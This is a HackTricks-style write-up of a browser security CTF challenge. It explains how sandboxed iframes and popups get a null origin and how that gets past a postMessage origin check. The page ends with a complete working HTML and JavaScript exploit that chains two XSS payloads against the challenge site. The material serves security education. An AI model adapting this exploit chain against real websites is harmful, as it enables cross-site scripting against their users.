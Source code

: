 # Bypassing SOP with Iframes - 1

{{#include ../../banners/hacktricks-training.md}}

## Iframes in SOP-1

In this [**challenge**](https://github.com/terjanq/same-origin-xss) created by [**NDevTK**](https://github.com/NDevTK) and [**Terjanq**](https://github.com/terjanq) you need you need to exploit a XSS in the coded

```javascript
const identifier = "4a600cd2d4f9aa1cfb5aa786"
onmessage = (e) => {
  const data = e.data
  if (e.origin !== window.origin && data.identifier !== identifier) return
  if (data.type === "render") {
    renderContainer.innerHTML = data.body
  }
}
```

The main problem is that the [**main page**](https://so-xss.terjanq.me) uses DomPurify to send the `data.body`, so in order to send your own html data to that code you need to **bypass** `e.origin !== window.origin`.

Let's see the solution they propose.

### SOP bypass 1 (e.origin === null)

When `//example.org` is embedded into a **sandboxed iframe**, then the page's **origin** will be **`null`**, i.e. **`window.origin === null`**. So just by embedding the iframe via `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` we could **force the `null` origin**.

If the page was **embeddable** you could bypass that protection that way (cookies might also need to be set to `SameSite=None`).

### SOP bypass 2 (window.origin === null)

The lesser known fact is that when the **sandbox value `allow-popups` is set** then the **opened popup** will **inherit** all the **sandboxed attributes** unless `allow-popups-to-escape-sandbox` is set.\
So, opening a **popup** from a **null origin** will make **`window.origin`** inside the popup also **`null`**.

### Challenge Solution

Therefore, for this challenge, one could **create** an **iframe**, **open a popup** to the page with the vulnerable XSS code handler (`/iframe.php`), as `window.origin === e.origin` because both are `null` it's possible to **send a payload that will exploit the XSS**.

That **payload** will get the **identifier** and send a **XSS** it **back to the top page** (the page that open the popup), **which** will **change location** to the **vulnerable** `/iframe.php`. Because the identifier is known, it doesn't matter that the condition `window.origin === e.origin` is not satisfied (remember, the origin is the **popup** from the iframe which has **origin** **`null`**) because `data.identifier === identifier`. Then, the **XSS will trigger again**, this time in the correct origin.

```html
<body>
  <script>
    f = document.createElement("iframe")

    // Needed flags
    f.sandbox = "allow-scripts allow-popups allow-top-navigation"

    // Second communication with /iframe.php (this is the top page relocated)
    // This will execute the alert in the correct origin
    const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
      x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
    },1000);`.replaceAll("\n", " ")

    // Initial communication
    // Open /iframe.php in a popup, both iframes and popup will have "null" as origin
    // Then, bypass window.origin === e.origin to steal the identifier and communicate
    // with the top with the second XSS payload
    f.srcdoc = `
    <h1>Click me!</h1>
    <script>
      onclick = e => {
        let w = open('https://so-xss.terjanq.me/iframe.php');
        onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
        setTimeout(_ => {
          w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
        }, 1000);
      };
    <\/script>
    `
    document.body.appendChild(f)
  </script>
</body>
```

{{#include ../../banners/hacktricks-training.md}}
